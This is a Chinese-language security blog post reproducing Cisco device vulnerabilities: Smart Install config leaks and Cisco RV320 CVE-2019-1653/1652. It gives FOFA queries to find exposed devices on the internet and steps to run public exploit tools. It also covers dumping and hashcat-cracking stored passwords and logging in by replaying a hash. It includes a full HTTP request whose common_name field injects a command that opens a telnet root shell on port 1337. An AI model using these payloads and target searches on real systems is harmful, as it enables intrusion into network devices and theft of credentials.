









# cisco 设备信息泄漏漏洞案例

近期遇到了几个 cisco 配置信息泄漏的案例，借此机会复现下 cisco 常见的几个漏洞。

info

本文首发 合天网安 [https://mp.weixin.qq.com/s/efrcXS\_uiXp0LzUaaEJ-MA](https://mp.weixin.qq.com/s/efrcXS_uiXp0LzUaaEJ-MA)

- - -

## [](#cisco-smi-%E9%85%8D%E7%BD%AE%E6%B3%84%E6%BC%8F)cisco SMI 配置泄漏

Cisco SMI 是一种即插即用功能，可为 Cisco 交换机提供零接触部署并在 TCP 端口 4786 上进行通信。如果发现开放 4786 端口的 cisco 设备，那可以深入测试一下。

fofa 语句 *protocol=“smi”*

[](https://r0fus0d.blog.ffffffff0x.com/img/cisco-case/Untitled.png)

影响目标还挺多的

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>``` | ```fallback<br>git clone https://github.com/ChristianPapathanasiou/CiscoSmartInstallExploit<br>cd CiscoSmartInstallExploit<br>pip2 install tftpy<br>python2 cisco.py [ip]<br>``` |

注意用 python2 运行，运行成功会下载目标的运行配置

[](https://r0fus0d.blog.ffffffff0x.com/img/cisco-case/Untitled%201.png)

配置文件中存有设备用户密码，ACL 配置，ftp 配置账号密码等敏感信息

如果想进一步分析配置文件可以下载 ccat 工具进行自动化分析

[https://github.com/frostbits-security/ccat](https://github.com/frostbits-security/ccat)

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>``` | ```fallback<br>git clone https://github.com/frostbits-security/ccat.git<br>cd ccat<br>pip3 install -r requirements.txt<br>python3 ccat.py configuration_file<br>``` |

[](https://r0fus0d.blog.ffffffff0x.com/img/cisco-case/Untitled%202.png)

我们可以使用 **–dump-creds** 参数 dump 出账号密码

[](https://r0fus0d.blog.ffffffff0x.com/img/cisco-case/Untitled%203.png)

文件名 m500 的可以用 hashcat -m 500 的掩码进行爆破，5700 同理

[](https://r0fus0d.blog.ffffffff0x.com/img/cisco-case/Untitled%204.png)

- - -

## [](#cve-2019-1652--cve-2019-1653)CVE-2019-1652 && CVE-2019-1653

Cisco RV320 路由器的配置可以在未经身份验证的情况下通过设备的 Web 界面导出。

fofa 语句 app=“CISCO-RV320”

对应 poc

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```fallback<br>ip:port/cgi-bin/config.exp<br>``` |

[](https://r0fus0d.blog.ffffffff0x.com/img/cisco-case/Untitled%205.png)

下载的配置文件中有账号和 md5 的密码，不过 md5 的格式为 `md5($password.$auth_key)`，其中 auth\_key 是一个静态值，可以通过直接访问 / 路径找到。

[](https://r0fus0d.blog.ffffffff0x.com/img/cisco-case/Untitled%206.png)

当然在通过 CVE-2019-1653 获得了账号和 md5 的密码后可以通过替换登录包的 hash 进行登录，无需解密

[](https://r0fus0d.blog.ffffffff0x.com/img/cisco-case/Untitled%207.png)

[](https://r0fus0d.blog.ffffffff0x.com/img/cisco-case/Untitled%208.png)

后台可以配合 CVE-2019-1652 进行 rce

github 上的利用 poc 由于不支持目标的自签名证书 [https://github.com/0x27/CiscoRV320Dump/blob/master/easy\_access.py](https://github.com/0x27/CiscoRV320Dump/blob/master/easy_access.py) 这里就手动发包进行测试

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>``` | ```fallback<br>POST /certificate_handle2.htm?type=4 HTTP/1.1<br>Host: x.x.x.x<br>Upgrade-Insecure-Requests: 1<br>User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36<br>Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9<br>Accept-Encoding: gzip, deflate<br>Accept-Language: zh-CN,zh;q=0.9<br>Cookie: mlap=RGVmYXVsdDk6Ojo6Y2lzY28=<br>Connection: close<br>Content-Type: application/x-www-form-urlencoded<br>Content-Length: 319<br><br>page=self_generator.htm&totalRules=1&OpenVPNRules=30&submitStatus=1&log_ch=1&type=4&Country=A&state=A&locality=A&organization=A&organization_unit=A&email=ab%40example.com&KeySize=512&KeyLength=1024&valid_days=30&SelectSubject_c=1&SelectSubject_s=1&common_name=a%27%24%28telnetd%20-l%20%2Fbin%2Fsh%20-p%201337%29%27b<br>``` |

payload 执行后会用 telnet 在本地监听 1337 口

连接验证

[](https://r0fus0d.blog.ffffffff0x.com/img/cisco-case/Untitled%209.png)

- - -

## [](#%E6%80%BB%E7%BB%93)总结

1.  cisco 设备国内互联网公司和企事业用的不多，近年来都被国产品牌替换了。
2.  python 的 poc 经常会遇到一些历史遗留问题，比如 tls 版本过低，依赖库安装报错不兼容等等问题，建议还是用 go 写 poc，利人利己。
